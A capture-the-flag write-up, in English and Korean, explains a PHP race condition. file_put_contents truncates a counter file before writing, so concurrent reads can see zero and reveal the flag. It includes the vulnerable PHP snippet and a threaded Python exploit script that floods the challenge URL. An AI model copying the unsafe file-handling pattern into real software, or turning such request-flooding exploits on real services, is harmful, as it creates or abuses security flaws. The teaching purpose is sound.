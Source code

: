 # Count (Web)

-----
This challenge is simple race condition in php.
php has functions called `file_get_contents` and `file_put_contents`.

`file_put_contents` function is accepts four args. (can $flags, $context args be omitted)
```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
```
This function is identical to calling fopen(), fwrite() and fclose() successively to write data to a file.

영어로 쓰다가 힘들어서 그냥 한국어로 쓴다.

`file_put_contents`에서 `flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이다.
[php 소스](https://github.com/php/php-src "php 소스")에서 `ext/standard/file.c`를 열어서 들여다보면 `flags`가 0일때 모드는 `wb` 모드이다.
즉, 기존에 abc라는 파일이 있고 `file_put_contents`로 `file_put_contents('abc', 'asdf');` 이렇게 쓴다면
기존 abc에 있던 내용은 다 지워지고 `asdf`라는 내용이 들어간다.

이 문제는 이러한 특징을 이용한 레이스 컨디션 문제다.

```php
$cnt = (int)file_get_contents('cnt-file');

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents('cnt-file' $cnt);

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다.
`$cnt`의 초기값은 5다. (cnt-file에 있는 값이 5)

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 cnt-file에 쓴다.
그리고 증가하다가 30이 되면 10으로 초기화한다.

위에서 설명한 `file_put_contents`의 특징을 모르는 상태라면 말도 안되는 코드라고 생각할 수 있다.
하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때 잠깐동안 지워지는 그 순간을 노리면 된다.

exploit.py

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```

